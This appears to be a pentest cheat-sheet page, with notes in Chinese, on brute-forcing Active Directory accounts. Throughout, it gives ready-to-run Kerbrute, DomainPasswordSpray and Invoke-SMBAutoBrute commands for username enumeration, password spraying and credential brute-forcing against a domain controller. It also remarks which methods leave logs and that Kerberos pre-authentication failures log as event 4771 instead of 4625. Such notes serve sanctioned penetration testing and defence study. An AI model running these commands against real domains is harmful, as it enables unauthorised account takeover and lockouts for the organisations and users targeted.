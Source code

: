 ### Kerbrute
	https://github.com/ropnop/kerbrute
	用户枚举
	>kerbrute_windows_amd64.exe userenum -d zone.com username.txt
![image](/assets/Pentest_Note/master/img/371.png)

	密码喷射
	>kerbrute_windows_amd64.exe passwordspray -d zone.com use.txt password
![image](/assets/Pentest_Note/master/img/372.png)

	密码爆破
	此项会产生日志
	>kerbrute_windows_amd64.exe bruteuser -d zone.com pass.txt name
![image](/assets/Pentest_Note/master/img/373.png)

	组合爆破
	格式为username:password
	>kerbrute_windows_amd64.exe -d zone.com bruteforce com.txt
### DomainPasswordSpray
	https://github.com/dafthack/DomainPasswordSpray
	自动收集账户进行密码喷射
	>Invoke-DomainPasswordSpray -Password pass
![image](/assets/Pentest_Note/master/img/374.png)

	组合爆破
	>Invoke-DomainPasswordSpray -UserList users.txt -Domain zone.com -PasswordList passlist.txt -OutFile result.txt
	会产生日志
	单密码
	>Invoke-DomainPasswordSpray -UserList users.txt -Domain zone.com -Password password
### SMBAutoBrute
  	https://github.com/Shellntel/scripts/blob/master/Invoke-SMBAutoBrute.ps1
	>Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
### Kerberos 预授权暴力破解
  	Kerberos 预身份验证错误不会以正常登录失败事件 (4625)记录在 Active Directory 中，而是以特定日志记录到Kerberos 预身份验证失败 (4771)
	用户名爆破
	>./kerbrute_linux_amd64 userenum -d domain.local --dc 10.10.10.10 usernames.txt
	密码爆破
	>./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
	密码喷射
	> ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
	> ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
	> ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerbrute-passwordspray-123456.log